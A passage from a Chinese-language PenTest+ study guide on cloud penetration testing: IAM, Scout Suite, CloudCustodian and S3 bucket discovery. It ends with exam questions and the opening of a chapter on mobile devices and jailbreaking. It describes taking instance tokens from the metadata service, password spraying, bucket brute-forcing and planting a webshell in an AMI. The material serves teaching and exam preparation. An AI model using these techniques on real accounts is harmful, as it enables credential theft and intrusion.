我们还拥有目标在系统启动时用于设置本地管理员密码的代码。Pacu 不仅帮助我们在 IAM 中获得了提升的访问权限，还获得了对 EC2 资源的访问权限。有了对系统的访问权限，我们就有了额外的攻击机会，比如从元数据服务获取数据。

元数据服务 ([`docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html`](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)) 向系统本身提供有关系统的信息。当你通过类似前面的 userdata 攻击获得对系统的访问权限时，你可以在 AWS 中查询元数据服务。从 AWS 系统，你可以查询 URI [`169.254.169.254/latest/meta-data`](http://169.254.169.254/latest/meta-data) 以查看各种选项。这是一个亚马逊专用的 IP 地址。我们可以做的一件事是获取实例的令牌。这些令牌允许我们利用我们已攻陷的系统或服务的权限。


> **考试提示** AWS 用户密钥通常以 `AKIA` 开头，而服务以 `ASIA` 开头。当你看到 `AKIA` 时，它是长期凭证，而 `ASIA` 是服务的短期凭证 ([`docs.aws.amazon.com/STS/latest/APIReference/API_GetAccessKeyInfo.html`](https://docs.aws.amazon.com/STS/latest/APIReference/API_GetAccessKeyInfo.html))。


> **提示** 如果你想进一步尝试这种攻击，flAWS CTF 挑战 ([`flaws.cloud/`](http://flaws.cloud/)) 允许你使用真实的 AWS 配置进行测试。

##### 账户接管

账户接管是一个用于描述某人获得对账户普遍访问权限的术语。本质上，攻击者拥有与账户所有者同等的特权。通常，这是鱼叉式网络钓鱼、访问配置错误或从域特权提权到云的结果。2020 年底涉及账户接管的一个高调事件是 SolarWinds 入侵。攻击者向云应用程序添加了进一步的 OAuth 证书，这使他们能够伪造凭证以维持提升的特权 ([`www.bankinfosecurity.com/solarwinds-attackers-manipulated-oauth-app-certificates-a-16253`](https://www.bankinfosecurity.com/solarwinds-attackers-manipulated-oauth-app-certificates-a-16253))。

除了攻击 OAuth 和联邦身份认证外，攻击还可以创建看似良性的宽松策略，向攻击者控制的用户添加证书或访问密钥，或向在账户中拥有提升特权的应用程序添加持久化。恶意策略可以分配给用户或系统，或者可以向现有策略添加额外权限。但所有这些攻击都旨在授予环境内的持久访问权限，从而导致对数据和命令的普遍访问。这可能超出云账户本身，延伸到联邦应用程序、云资产、托管数据和网络边界。

##### 密码喷射

与其他暴露的登录接口一样，密码喷射攻击在云中也有效。在许多情况下，多因素认证将到位并缓解这些攻击。然而，如果存在易受攻击的云接口暴露，为常见登录服务设计的密码喷射工具可能不起作用。相反，你可能需要使用特定于云的密码喷射工具，例如 Microsoft Online MSOLSpray 工具 ([`github.com/dafthack/MSOLSpray`](https://github.com/dafthack/MSOLSpray))。这是一个示例：


对于考试而言，不太可能要求你具备关于所有能够执行此操作的工具的百科全书式知识。但是，你应该意识到，当你测试托管在云中的资产时，这种攻击仍然适用，并且在渗透测试期间，你可能需要自定义工具来执行它。此外，你应该了解密码喷射攻击对服务的影响，以及根据托管提供商的渗透测试政策，这种攻击是否被允许。但请记住，攻击托管在云中的资产与攻击云本身并不相同，即使你最终可能能够访问云托管系统，甚至将权限提升到可以访问并攻击云基础设施的程度。

#### 配置错误的云资产

无论是软件即服务（SaaS）、平台即服务（PaaS）还是基础设施即服务（IaaS），保护云资产配置可能简单得令人失望，也可能复杂得令人望而生畏。平台越复杂，保护平台的难度可能就越大，而当迁移到 PaaS 或 IaaS 时，复杂性可能会变得巨大。

##### 身份与访问管理

IAM 由云环境中用户、组、角色以及用户和资产的权限组成。权限是授予用户、组或资产的显式访问授权。这可能是访问 AWS 中特定存储桶的能力，或更新 Azure 中 Blob 存储的能力。

角色旨在汇总权限，以便跨不同用户、组或资产使用。它们的构建目的是为了执行特定任务。例如，为了使用 Packer 等工具在云中创建新镜像，你需要能够启动机器镜像、更新镜像、创建镜像快照并将其提升为新镜像。这将需要一系列权限。角色可能在其下嵌套其他角色以执行该任务。

最佳实践是将角色分配给组，并将用户放入组中。这有助于基于角色的访问控制（RBAC）。这使管理员能够授予人们完成其工作所需的权限，同时当工作要求发生变化时，能够更新所有任职者的权限。与必须更新每个单独用户相比，这在管理上强度较低，尤其是在大型组织中。

请记住，应用程序和系统也可能拥有权限。这包括访问其他服务的权限、在数据存储中创建和销毁文件的权限，甚至更新某些云配置的权限。由于这可能会迅速变得非常复杂，拥有工具来帮助识别问题非常方便。

NCCGroup 的 Scout Suite（[`github.com/nccgroup/ScoutSuite`](https://github.com/nccgroup/ScoutSuite)）就是此类工具之一。它可以审核 AWS、Azure、Google Cloud、阿里云和 Oracle Cloud 中的账户。Scout Suite 由 Python 编写，可以通过运行 `pip install scoutsuite` 进行安装，也可以从 GitHub 下载并安装该工具。安装完成后，输入 `scout -h` 将允许你查看选项。让我们通过运行 `scout aws` 来查看我们的 AWS 配置。输出将保存到一个目录中并创建一个 HTML 文件。


**考试提示** Scout Suite 是一个 Python 工具，可以审核 AWS、Azure、Google Cloud、阿里云和 Oracle Cloud 中的账户。Scout Suite 会自动收集配置数据并高亮显示潜在风险区域，以供人工检查。


图 6-1 展示了生成的 HTML 文件在浏览器中打开时的外观示例。主页显示所有服务，而仪表板显示与所有已评估服务相关的总体问题。图 6-2 展示了如果我们点击“安全”下拉菜单并选择 IAM 以查看 IAM 问题会发生什么。


**图 6-1** Scout Suite 结果，主页


**图 6-2** Scout Suite IAM 仪表板

我们的 IAM 仪表板标记了几个需要我们关注的问题。点击任何发现项将允许我们查看更多详细信息，以便我们修复这些问题。作为攻击者，这是一种深入挖掘可能可被利用区域以识别潜在攻击向量的简便方法。作为云账户所有者，定期运行此类工具以主动进行安全修复是一种良好的实践。

##### 联合身份认证

本章前面我们讨论了作为账户接管一部分的联合身份认证。联合身份认证采用一个身份提供商，并将其用作环境的认证源。这可能是像 Okta（[`www.okta.com/identity-101/what-is-federated-identity`](https://www.okta.com/identity-101/what-is-federated-identity)）这样的服务，它本身充当认证源，也可能集成到 AWS（[`aws.amazon.com/identity/federation`](https://aws.amazon.com/identity/federation)）、Azure（[`docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed`](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)）或 Google Cloud（[`cloud.google.com/architecture/identity/federating-gcp-with-active-directory-introduction`](https://cloud.google.com/architecture/identity/federating-gcp-with-active-directory-introduction)）中。

联合身份认证使用 OAuth（[`oauth.net/2/`](https://oauth.net/2/)）、SAML（[`auth0.com/blog/how-saml-authentication-works/`](https://auth0.com/blog/how-saml-authentication-works/)）或 OpenID（[`openid.net/`](https://openid.net/)）等技术，充当可以在环境外部执行认证的身份提供商，然后返回关于已认证方的数据，以便平台本身可以处理授权。这通常通过共享密钥（如证书）来保护。如果这些密钥泄露，则联合身份认证的安全性也就随之受损（[`www.zdnet.com/article/nsa-warns-of-federated-login-abuse-for-local-to-cloud-attacks/`](https://www.zdnet.com/article/nsa-warns-of-federated-login-abuse-for-local-to-cloud-attacks/)）。因此，保护这些密钥是环境安全的基础。

某些服务允许不止一个联合认证源或多个密钥。审核密钥、联合源或外部认证源的变更将有助于保护环境。作为测试人员，这是你应该寻找但需谨慎处理的内容。修改这些设置意味着要保护你添加的密钥，并确保在完成后进行清理，以免因测试而降低目标环境的安全性。

##### 对象存储

对象存储是被滥用最多的云组件之一。频繁发生的存储泄露（如 Amazon S3）通常是由于配置错误。在一起案例中，由于糟糕的 S3 卫生习惯，数百 GB 的市政数据被意外泄露（[`www.securitymagazine.com/articles/95704-us-municipalities-suffer-data-breach-due-to-misconfigured-amazon-s3-buckets`](https://www.securitymagazine.com/articles/95704-us-municipalities-suffer-data-breach-due-to-misconfigured-amazon-s3-buckets)）。作为渗透测试人员，我们通过两种方式之一来处理对象存储。我们可以从未认证的角度识别可访问的存储，也可以从已认证的视角识别可访问的存储。像 CloudCustodian（[`cloudcustodian.io/`](https://cloudcustodian.io/)）这样的工具可用于云治理和发现。


**考试提示** CloudCustodian 是一个开源工具，它使用 YAML 策略文件在多个云环境（包括 Azure、AWS 和 Google Cloud Platform）中审核和强制执行云配置策略。


###### CloudCustodian

CloudCustodian 接收 YAML 格式的策略，并针对账户运行它们，以识别错误配置、修复它们，并报告潜在的策略违规。策略包含名称、资源和一系列适用的过滤器。CloudCustodian 为 AWS、Azure 和 Google Cloud 提供了示例配置。这些配置范围涵盖从账户检查和修复到 VPC 检查（[`cloudcustodian.io/docs/aws/examples/index.html`](https://cloudcustodian.io/docs/aws/examples/index.html)）。假设我们要识别未阻止公共访问的存储桶。此示例策略将检查此项。


要运行此策略，我们可以使用 `run` 命令和 `--dry-run` 选项来运行 `custodian` 二进制文件。`--dry-run` 选项确保不会发生任何更改。我们还使用 `-s` 标志来提供输出目录。


在这种情况下，我们看到两个资源。查看输出目录，我们将看到每个策略都有基于名称的自己的目录，已识别的资源位于 `resources.json` 文件中。


我们可以看到 test-web 存储桶有一个公共访问阻止设置，但该设置并未阻止公共访问。该策略对 `*` 允许了 `PublicReadGetObject` 以获取对象。这意味着任何人都可以通过 Web 从该存储桶获取文件。让我们用 `curl` 验证一下。


我们看到可以使用为启用 Web 的存储桶命名方案（`<bucket>.s3.amazonaws.com`）来访问该存储桶。如果您知道组织名称，也可能能够使用以下格式：`s3-<region>.amazonaws.com/<Org Name>`。我们还可以使用 CloudScout 对 S3 存储桶的输出进行验证。当我们点击 derp-web 存储桶时，我们会看到与 **图 6-3** 中 JSON 响应相同的信息。


**图 6-3** S3 存储桶的 CloudScout 结果

如果我们没有访问权限怎么办？有许多工具旨在猜测 S3 存储桶名称。您可以在 Pacu 中使用此命令：

```
Pacu > run s3__bucket_finder -d <doamain>
```

Pacu 的 `s3__bucket_finder` 模块根据域名、子域名、给定的词缀等猜测存储桶名称。还有其他工具基于字典和单词列表操作来猜测存储桶。其中一个工具是 CloudBrute（[`github.com/0xsha/CloudBrute`](https://github.com/0xsha/CloudBrute)）。CloudBrute 支持 AWS、Azure、Google Cloud、Digital Ocean、Vultr、阿里云和 Linode 提供商。它将尝试根据键（由 `-k` 指定）、单词列表（由 `-w` 指定）以及域名或其他关键字来猜测存储桶。让我们尝试搜索 derp.pro。在 **图 6-4** 中，您可以看到输出。


**图 6-4** `./CloudBrute -d derp.pro -k derp -c amazon -w data/storage_small.txt` 的 CloudBrute 结果

Derp-web 没有显示出来。此目录不可公开列出。只有在您显式请求页面（例如使用 `index.html`）时才会显示。存储具有访问列表和公共设置，这些通常构成了组合访问规则。如果您不熟悉它们，这些规则可能会很复杂。这就是为什么发生了如此多的云存储数据泄露（[`github.com/nagwww/s3-leaks`](https://github.com/nagwww/s3-leaks)）。


**考试提示** CloudBrute 是一个多云（Azure、Amazon、Google 等）工具，它利用单词列表、域名和常见的云命名约定来帮助识别目标基础设施、文件和应用程序。

#### 容器化技术

我们将在 **第 7 章** 中进一步讨论容器。现在，请理解容器允许您获取一个镜像并在任何地方运行它。许多不同的技术让我们能够运行容器，例如 `containerd`、Windows 容器、`Docker`、`Kubernetes` 以及这些技术的云实现。大多数渗透测试人员都需要了解如何识别、访问和逃逸容器化系统。您如何利用容器资源来进一步访问其他系统或宿主系统，将受到您是否能够从容器内部映射系统上的本地磁盘的影响。例如，如果映射的目录包含 Docker 套接字文件，您可能能够使用该文件向容器发出命令。其他的 Docker 逃逸方法可以在 [`blog.nody.cc/posts/container-breakouts-part1/`](https://blog.nody.cc/posts/container-breakouts-part1/) 找到。

`Docker` 通常仅用于在特定主机上运行少量容器。`Docker Swarm` 用于在拥有少量系统和少量服务的环境中进行编排。`Kubernetes` 更适合需要跨许多节点进行编排的系统，并提供企业级的可扩展性和弹性。`Docker` 和 `Kubernetes` 共享一些常见的攻击模式（例如内核漏洞利用：[`snyk.io/blog/kernel-privilege-escalation/`](https://snyk.io/blog/kernel-privilege-escalation/)），但 `Kubernetes` 基于 kubelet、用户、Pod、Secret 等工作，这些具有独特的攻击向量。Microsoft 已创建了一份潜在的攻击、提权、发现和规避技术列表，作为其 Kubernetes 威胁矩阵的一部分（[`www.microsoft.com/security/blog/2021/03/23/secure-containerized-environments-with-updated-threat-matrix-for-kubernetes/`](https://www.microsoft.com/security/blog/2021/03/23/secure-containerized-environments-with-updated-threat-matrix-for-kubernetes/)）。Inguardians 的 Jay Beale 在他们的博客上撰写了一个演练，介绍了一些可用于 `Kubernetes` 攻击的技术：[`www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/blog/`](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/blog/)

#### 以云为中心的攻击

某些攻击（如 DoS）在应用于云时具有专门的背景。其他攻击则关注仅在云环境中可用的服务的细微差别，例如针对云资源的恶意软件注入和侧信道攻击。攻击者可能利用这些攻击在云环境中获得进一步访问权限，或将云环境作为攻击工具，以针对其他面向互联网的目标实现目标。

##### 拒绝服务

在 **第 3 章** 中，我们在压力测试应用程序的背景下讨论了 DoS 攻击。我们讨论了不同类型的攻击以及攻击者使用它们的原因。这范围从增加成本、中断服务质量，到给拥有资源或试图使用资源的组织造成不便。动机可能从金钱（勒索）、政治或道德活动、报复，到将其用于掩盖其他攻击。作为渗透测试人员，您可能还会被要求评估云环境是否存在弱点，允许攻击者利用云资源进行 DoS 攻击。

###### 容量型 DDoS

容量型攻击试图耗尽目标的带宽或连接。云资源是放大攻击或掩盖攻击真实来源的有吸引力的方式。反射攻击的放大倍数是发送给中间件的流量与发送给受害者的流量之比。例如，`Memcached` 用于存储可在应用程序之间共享的数据，如 Web 会话数据。一个针对 `Memcached` 的小请求可能会变成巨大的返回流量。但由于互联网上的 `Memcached` 系统比 NTP 或 SNMP 少，它可能作为目标吸引力较小。UDP 反射攻击可以使用 Apple 远程管理服务、Web 服务动态发现 (WS-DD)、受限应用协议 (CoAP)、LDAP 和 `Memcached` 等协议，所有这些都可能由云资源暴露。

###### 直击源站攻击


云基础分布式拒绝服务（DDoS）防护的优势之一在于云前端能够大规模扩展以应对攻击。只有必须传递给后端系统的流量才会落在源服务器上。采用这种缓解措施时，理想情况下应配置防火墙规则，防止云提供商以外的任何人直接与源服务器通信。如果这些规则未能妥善保护源服务器，攻击者可能会发出请求，泄露受保护系统的后端 IP 地址（[`cdn.net/how-to-protect-your-cdn-origin-server/`](https://cdn.net/how-to-protect-your-cdn-origin-server/)）。

如果真实 IP 被泄露，攻击者可绕过防护直接攻击 IP 地址。这就是直接源站攻击。内容分发网络（CDN）旨在承担大部分负载。因此，海量流量可由相对较少的系统处理。直接攻击这些少数系统可迅速使目标过载。CDN 中的缓存内容仍可服务，但动态内容无法生成和分发。这包括登录、搜索等功能（[`www.red-button.net/ddos-glossary/direct-to-origin-ddos-attacks/`](https://www.red-button.net/ddos-glossary/direct-to-origin-ddos-attacks/)）。

我们在第 2 章中讨论过如何对此进行侦察，但让我们再回顾一下。通过名称查找网站以获取其 IP。在 ARIN 中查找 IP 并查看其归属。如果是云提供商，则可能是云前端站点。您也可以向虚假的虚拟主机地址发起请求——例如“doesnotexist.derp.pro”——并查看是否收到来自不同 IP 范围的响应。您甚至可以查找目标组织拥有的 IP 范围并请求域名。例如，在 Burp 中向 IP 地址目标发送此请求（`https://<company owned IP address from ARIN>`）：


如果响应作为有效的 Web 响应返回基础页面，则表明您已发起直接请求。您还可以检查 SSL 证书以识别可能正在使用的虚拟主机 IP 地址。一些工具可帮助自动化此过程，但可能不会出现在考试中：

*   [`github.com/jobertabma/virtual-host-discovery`](https://github.com/jobertabma/virtual-host-discovery)
*   [`github.com/gwen001/vhost-brute`](https://github.com/gwen001/vhost-brute)
*   [`github.com/m0rtem/CloudFail`](https://github.com/m0rtem/CloudFail)


**TIP**   有关此类攻击研究的进一步阅读，请查看 ZDnet 的文章（[`www.zdnet.com/article/fbi-warns-of-new-ddos-attack-vectors-coap-ws-dd-arms-and-jenkins/`](https://www.zdnet.com/article/fbi-warns-of-new-ddos-attack-vectors-coap-ws-dd-arms-and-jenkins/)）和 Team Cymru 的博客（[`team-cymru.com/blog/2020/05/15/dissecting-ddos-attacks/`](https://team-cymru.com/blog/2020/05/15/dissecting-ddos-attacks/)）。

##### 云恶意软件注入

在第 5 章中，我们讨论了应用注入攻击，以及攻击者如何利用 XSS 和 SQLi 攻击将恶意内容注入合法应用程序提供的服务中。这些攻击在云环境中同样有效。然而，云中的恶意软件注入存在额外的攻击向量。在云中，攻击者可能利用通过其他攻击获得的访问权限，将恶意内容注入服务的镜像或云服务中。

例如，如果攻击者能够操纵合法云托管服务或机器镜像的副本，并说服云提供商提供该副本，他们便可获得对云环境的额外访问权限，甚至拦截发往合法服务的服务请求。在 SaaS 或 PaaS 模型中，这意味着使用某项服务。在 IaaS 模型中，这意味着影响服务的镜像。在这两种情况下，都涉及对云账户的某种程度的特权访问。但这可能是其他攻击的结果。让我们看一个合理的例子。

假设在测试期间，我们发现目标组织维护的一个废弃 GitHub 仓库。仓库中的许多脚本似乎用作该组织提供的服务的管理示例，或用于执行管理。使用 `truffleHog` 等工具，我们可以查找密钥。假设我们在一年多前的一次提交中发现了一个密钥。该密钥虽已从仓库中移除，但历史记录未被清理。测试该密钥发现其有效，且授予组织访问权限，但权限不足以执行我们想要的操作。不过我们拥有 `EC2:*` 特权。这允许我们枚举 EC2 实例并找到创建它们所用的 AMI。为了深入分析，我们可以使用自己的密钥启动一个采用该 AMI 的新实例，连接后发现它正在使用 AWS Secrets Manager 获取与其他服务通信的凭证。由于我们权限不足，无法授予新实例权限，因此它无法访问这些密钥。真遗憾，对吧？我们需要变通。我们发现 AMI 采用命名方案：`WebService-Master-MM-YY`。服务可能基于此命名方案拉取最新镜像。于是我们修改 AMI，植入隐藏的 Webshell 以供远程访问，并加入提权二进制文件以接管系统。然后使用相同的命名方案将其保存为新的 AMI。我们等待，最终发现服务启动了我们的恶意 AMI。我们利用 Webshell 进入，提权，并梳理运行进程以从 AWS Secrets Manager 获取凭证。这些密钥使我们能够访问 RDS 实例，获取之前无法访问的敏感数据。

攻击者可利用此手法通过“路过式下载”攻击等方式利用云服务用户，拦截发送给服务的其他敏感数据，或植入额外恶意软件以滥用云环境中托管的资源。此类攻击难以发现，因为它高度依赖镜像和服务的完整性管理，以及云密钥的保护。虽然后者备受关注，但完整性管理的良好控制措施却较少被考虑。

##### 侧信道攻击

云流行的原因之一是其可扩展性。负担得起的可扩展性源于多租户。这意味着许多客户可能在同一物理硬件上运行隔离的镜像。由于 CPU 相同且部分硬件共享，侧信道攻击可能利用硬件弱点从其他实例捕获信息。两个著名的例子是 Spectre 和 Meltdown（[`googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html`](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html)）。利用这些弱点，攻击者可能读取内核内存和系统缓存，并可能访问其他实例的信息。密钥、证书、凭证、处理过的数据及其他信息可能从共享系统中泄露。关于侧信道攻击有许多学术论文（例如 [`dx.doi.org/10.1145/2660267.2660356`](http://dx.doi.org/10.1145/2660267.2660356)）；然而，这些攻击难以实施，且返回的数据并不总是可预测的。

##### 软件开发工具包


###### 基于云的软件开发工具包 (SDK)

基于云的软件开发工具包 (SDK) 包含用于与云交互的命令行界面 (CLI)。Amazon 实现了 `awscli`。Google Cloud Platform (GCP) 实现了 `gcloud` 工具。Azure 拥有 `az` 工具。这些工具包可能还包含各种其他库，以帮助与服务进行交互。大多数云基础设施都可以通过编程方式访问。以下是使用 PowerShell 在 Azure 中查找自动化账户和 Runbook 并将其导出的示例：


这也可以使用为 Python 编写的 Azure SDK 来完成 ([`github.com/Azure/azure-sdk-for-python`](https://github.com/Azure/azure-sdk-for-python))。

此外，许多组织正在采用基础设施即代码 (IaC) 的方式。IaC 允许组织以编程方式定义如何在云中构建实例和架构，以便它们能够保持一致、可扩展、可复用且定义明确。构成 IaC 的工具包括 Chef、Puppet、Ansible、SaltStack、Terraform、CloudFormation、Packer、Vagrant、Docker 和 Kubernetes。我们可能需要用一整本书的篇幅来介绍这些技术，如果你选择专注于云技术，为了成为一名优秀的渗透测试人员，你肯定应该利用机会独立研究这些技术。你需要知道的是，使用这些工具提供了一种以编程方式在其他工具中使用云 SDK 的方法。

使用代码设置配置文件以构建基于云的基础设施，然后执行预构建、部署和部署后任务以自定义生成的镜像，具有三大优势。随着工具的更新，这使得根据需要升级、重新部署、扩展和销毁环境变得容易得多。DevOps 方法论更容易利用这些工具将云更好地纳入 CI/CD 流水线，随着新功能的添加，代码可以不断更新，以便根据需要对环境进行扩展、升级和回滚。并且这些工具使得将环境从一个提供商转换到另一个提供商变得更加容易，因为实际基础设施被抽象化了。

这对渗透测试人员或攻击者意味着什么？这些都是强大的工具，但它们必须从某处运行。这意味着密钥、机密、配置以及这些工具使用的数据也必须驻留在某处。这使得将这些信息作为目标成为潜在的作战目标。通过查看内部和外部代码仓库来确认这些信息得到了充分保护，以最大限度地减少意外泄露。以处理 CI/CD 流水线的系统为目标，确保它们不会授予对所有云存储库的访问权限，包括启动新实例的能力、捕获密钥以进行权限提升或获得持久化访问。CyberArk、HashiCorp Vault、AWS Secrets Manager 和 GCP Secrets Manager 等工具都有助于管理机密。Google 有一些关于机密管理的优秀建议 ([`cloud.google.com/secret-manager/docs/best-practices`](https://cloud.google.com/secret-manager/docs/best-practices))，但未能遵循此指南或泄露额外密钥的用户也可能使机密管理变得脆弱。因此，渗透测试将重点关注在整个预配和管理过程中，旨在保护这些信息的策略和实践实施中的弱点，尤其是在涉及云 SDK 和 CI/CD 时。

### 章节回顾

正如你所见，云是渗透测试的一个专业领域。它需要自己的一套工具和知识才能成功地对其执行渗透测试。在本章中，我们回顾了以云为中心的账户和权限攻击考量，概述了常见渗透测试概念在云中的具体应用。我们探讨了云配置概念，为渗透测试期间的云管理、侦察和利用提供了背景，并讨论了特定于云环境的攻击排列组合。云渗透测试通常需要定制工具，因此我们提供了一些场景，让你熟悉其中的一些工具，例如 Pacu、CloudBrute、Cloud Custodian 和 Scout Suite。但你还有大量空间进行进一步研究，以成为真正的云渗透测试专家。

################ 问题

**1.** 以下哪种工具可用于使用 Azure 识别目标组织的云资产？

**A.** Pacu

**B.** Scout Suite

**C.** Hydra

**D.** CloudBrute

**2.** 获得对云资源访问权限的最常见方式之一是什么？

**A.** 密码喷射

**B.** 软件仓库中未受保护的信息

**C.** SQL 注入

**D.** 钓鱼攻击

**3.** 你会使用以下哪个模块来枚举 AWS 账户数据，以及哪个工具实现了它？

**A.** Pacu 中的 `aws__enum_account`

**B.** Cloud Custodian 中的 `Account – detect logins`

**C.** Pacu 中的 `ec2_enum`

**D.** Scout Suite 中的 `-aws profile`

**4.** 拥有有效令牌和对元数据服务的访问权限，你可能会尝试做以下哪项？

**A.** 更改实例内的防火墙规则

**B.** 从 IAM 中提取用户信息

**C.** 利用你已攻陷的服务或系统的权限进行进一步访问

**D.** 在 AMI 中植入后门以实现持久化和远程访问

**5.** 以下情况表明云资产可能容易受到哪种攻击？假设 10.0.0.1 已确认在目标组织拥有的 IP 范围内。


**A.** XSS

**B.** 直击源站攻击

**C.** 容量耗尽型 DDoS

**D.** SSRF

#### 答案

**1.** **D.** CloudBrute 可以基于字典和词表在多个云提供商中识别资源。

**2.** **B.** 在渗透测试期间，不安全地存储的密钥和其他认证材料通常是获得对云资源初始访问权限的简便途径。

**3.** **A.** Pacu 实现了模块，专注于 AWS 账户详细信息的枚举模块是 `aws__enum_account`。

**4.** **C.** 元数据服务将允许你获取实例的令牌，但不一定能让你执行其他提到的操作。即使你可能拥有执行其中某些操作的权限，也不一定会使用元数据服务来做这些事。

**5.** **B.** 通过请求直接 IP 获取合法网站表明，当你请求的 IP 不属于其他组织（如云缓解提供商）时，你已成功直接请求到源站服务器。负载均衡器和其他设备可能会执行重定向或提供错误页面，而不是预期的 Web 内容。

## 第 7 章

### 专用和脆弱系统

在本章中，你将了解

- 专用系统的常见攻击和漏洞
- 移动端攻击、漏洞和工具
- 物联网 (IoT) 和 SCADA 系统的特殊考量、漏洞和攻击
- 本地和云配置的数据存储系统漏洞
- 适用于虚拟化和容器化环境的漏洞


############### 专用系统

专用系统（包括移动设备、物联网、SCADA 以及虚拟化/容器化系统）彻底改变了人们相互交互和与互联网交互的方式。过去需要家用电脑才能完成的大多数任务（如电子邮件、网上银行、视频聊天或观看电影），现在都可以通过移动软件应用，从平板电脑或智能手机上方便地完成。从工厂到农业的各类自动化管理，现在都可以通过网络进行。借助虚拟化和容器化技术，企业永久改变了系统管理和可移植性的范式。

这些系统的共同点在于设备专用化。这些设备服务于特定用途，且通常在特定约束条件下运行，这使它们区别于传统设备。例如，需要长时间靠电池供电运行、适应更小的外形规格、符合其他工业操作条件，或适应提供完全虚拟化堆栈的操作参数。相应地，操作系统和软件通常也会定制化以匹配这些需求。这意味着，依赖操作系统级访问或遵循传统网络规则的传统渗透测试方法，可能无法以完全相同的方式适用于这些环境。

在本章中，我们将高层级地讨论 CompTIA PenTest+ 考试中可能涉及的关于移动系统、虚拟化设备及其他非传统系统的一些概念。请注意，这是一个广泛的专业领域，我们无法在单个书章的范围内涵盖此类渗透测试的方方面面。为了备考，我们强烈建议利用本章提供的资源进行进一步阅读。

################ 移动设备

当我们谈论移动设备时，通常指的是手机和平板电脑。其硬件为手持外形规格、长续航、有限本地存储以及便于无线和蜂窝通信的安全特性而定制。通常，这些设备运行 `Android` 或 `iOS` 操作系统。`Android` 是开源操作系统，而 `iOS` 是专有系统。无论哪种情况，渗透测试往往聚焦于本地设备存储的安全性、认证与授权、应用程序之间及与操作系统的交互方式、通信，以及设备上存在的防篡改或防逆向控制。


> **注意** 有关 Apple 移动平台硬件及其安全模型的更多信息，请查阅 2021 年 Apple 平台安全指南：<https://manuals.info.apple.com/MANUALS/1000/MA1902/en_US/apple-platform-security-guide.pdf>。同样，您可以在 <https://developer.android.com/training/articles/security-tips> 阅读更多关于 Android 平台的信息。

###### 测试概念

在深入探讨特定移动操作系统之前，有几个概念是移动测试平台所共有的。移动测试带来的挑战不仅在于使用什么测试工具，还在于如何安装测试工具和应用程序、如何访问设备，甚至在于能使用什么环境来执行测试。我们将从四个关键概念来谈论这些，包括应用旁加载、越狱、模拟器与仿真器，以及专用测试硬件。

####### 旁加载

大多数移动生态系统将应用程序安装限制在应用商店内。例如，App Store 是在 `iOS` 设备上安装应用程序的唯一途径。`Android` 则实施 Google Play。如果您需要测试这些商店中没有的应用程序，您要么需要修改设备以允许旁加载（`Android`），要么需要特殊权限，无论是作为开发者还是在设备本身上（`iOS`）。旁加载是安装未获设备批准的应用程序、或来自未获批准来源的应用程序的过程。对于移动设备，旁加载通常通过 USB 完成。

####### 越狱

如果没有操作系统的特权访问，您就无法依赖日志、进程监控或其他您通常可能拥有的输入来评估功能。您可能无法安装应用程序或其他自定义工具。这些限制还会阻止您评估加密代码或通信。对这些设备进行渗透测试，往往意味着要寻找变通方法。

越狱，或“Root（获取 Root 权限）”，是利用移动操作系统中的软件漏洞，实现具有提升权限（即 root）的低级执行，以绕过移动操作系统中的安全机制的过程。当您没有其他方式进行旁加载应用程序，或需要设备级访问来评估应用程序安全性时，越狱设备非常有用。`Android` 和 Apple 设备都可以越狱，但可用的越狱工具会随时间变化。越狱分为四类：

- **Untethered（完全越狱）** 设备可以在无需电脑帮助的情况下开关机。
- **Tethered（不完全越狱）** 每次启动越狱设备都需要电脑和软件。
- **Semi-tethered（半完全越狱）** 如果设备重启，您需要再次越狱，并使用电脑修补内核。
- **Semi-untethered（半不完全越狱）** 这与半完全越狱相同，但可以使用已安装在设备上的越狱应用程序来完成。

如何越狱设备取决于设备和操作系统版本。虽然存在一些纯在线越狱（例如，参见 <https://www.theiphonewiki.com/wiki/Jailbreak_Exploits>），但在大多数情况下，您必须将越狱应用程序旁加载到设备上。对于移动设备，这通常通过 USB 完成。一旦运行越狱程序，您将获得设备的特权访问。但这并非万无一失。您始终面临设备变得不可用（即“变砖”）的风险。因此，建议您使用专用测试设备，而不是个人设备进行测试。

如果您确实越狱了设备，一个重要的考量因素是：越狱过程会改变设备的安全性。此过程可能会启用通常不启用的服务，或设置可被能看到越狱设备的网络攻击者利用的默认密码。测试时请务必特别注意这些变化，并确保您自行保护设备安全，而不是因您的行为给客户带来数据丢失或泄露的风险。这也可能意味着，在您客户的授权范围内发现其他越狱设备，可能成为您渗透测试期间的有效目标。真有趣！


> **注意** iOS 越狱在 SANS 博客系列文章中有详细讨论：<https://www.sans.org/blog/checkra1n---part-1---prep/>。要了解其他类型的越狱或获取设备越狱帮助，请查看 iOS 越狱 subreddit：<https://www.reddit.com/r/jailbreak> 以及 Android Root subreddit：<https://www.reddit.com/r/androidroot/>。

###### 模拟器与仿真器


####### 另一种替代方案：使用模拟器或仿真器

除了越狱或 Root 设备，另一种替代方案是使用模拟器或仿真器。

Apple 的 **XCode** 是一个集成开发环境（IDE），它包含用于 iOS 开发的 Apple 软件开发工具包（SDK）及工具，以及一个 iOS 仿真器。Android 的 SDK 也包含一个模拟器。

模拟器与仿真器的区别在于：模拟器会模拟被测应用的硬件和操作系统，而仿真器仅模拟软件环境。在测试移动应用或操作系统的安全性时，你可能需要确保使用的是真实设备或接近原始环境的设备，以保证测试结果的准确性。


> **CAUTION**  
> 使用模拟器或仿真器而非实际设备的最大好处是：如果模拟器虚拟机损坏，你可以启动另一个。如果你把硬件设备变砖了，恢复起来可能就没那么容易了。作为额外的预防措施，在 Root 或越狱设备前，请务必记得先备份数据。

###### 测试硬件

由于 Apple 设备上存在大量基于硬件的控制机制，Apple 为研究人员提供了 **Apple Security Research Device (SRD)**。

Apple SRD 旨在让研究人员无需绕过保护机制即可测试 iOS。它允许旁路加载内容，并以平台等效权限运行。这使用了变体引导软件，无法在消费级硬件上运行。不过，这些设备仅通过严格受控的计划提供（[`developer.apple.com/programs/security-research-device/`](https://developer.apple.com/programs/security-research-device/)）。

####### 移动硬件

